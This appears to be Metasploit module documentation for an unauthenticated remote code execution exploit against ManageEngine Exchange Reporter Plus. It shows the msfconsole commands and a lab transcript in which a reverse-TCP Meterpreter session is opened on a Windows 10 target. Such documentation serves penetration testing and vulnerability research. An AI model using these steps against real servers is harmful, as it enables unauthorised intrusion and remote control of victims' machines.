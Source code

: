 ## Description
This module exploits a remote code execution vulnerability that exists in Exchange Reporter Plus <= 5310, caused by execution of bcp.exe file inside ADSHACluster servlet.
Additional information can be viewed on https://security.szurek.pl/manage-engine-exchange-reporter-plus-unauthenticated-rce.html

## Verification Steps
[Exchange Reporter Plus 5216](https://mega.nz/#!XG5CTC5I!IuG91CbrcdcpQj4teYRiBWNwy9pULRkV69U3DQ6nCyU)

## Verification Steps

 1. Install the application
 2. Start msfconsole
 3. Do: `use exploit/windows/http/manageengine_adshacluster_rce`
 4. Do: `set rhost <ip>`
 5. Do: `check`
```
[*] Version: 5216
[+] 192.168.88.125:8181 The target is vulnerable.
```
 6. Do: `set lport <port>`
 7. Do: `set lhost <ip>`
 8. Do: `exploit`
 9. You should get a shell.


## Scenarios

### Exchange Reporter Plus 5216 on Windows Target
```                                                                                                                                    
msf > use exploit/windows/http/manageengine_adshacluster_rce
msf exploit(windows/http/manageengine_adshacluster_rce) > set rhost 192.168.88.125
rhost => 192.168.88.125
msf exploit(windows/http/manageengine_adshacluster_rce) > check

[*] Version: 5216
[+] 192.168.88.125:8181 The target is vulnerable.
msf exploit(windows/http/manageengine_adshacluster_rce) > set lport 1111
lport => 1111
msf exploit(windows/http/manageengine_adshacluster_rce) > set lhost 192.168.88.120
lhost => 192.168.88.120
msf exploit(windows/http/manageengine_adshacluster_rce) > exploit

[*] Started reverse TCP handler on 192.168.88.120:1111
[*] Sending stage (179779 bytes) to 192.168.88.125
[*] Meterpreter session 2 opened (192.168.88.120:1111 -> 192.168.88.125:49955) at 2018-07-02 18:58:01 +0200

meterpreter > sysinfo
Computer        : WIN10
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : pl_PL
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```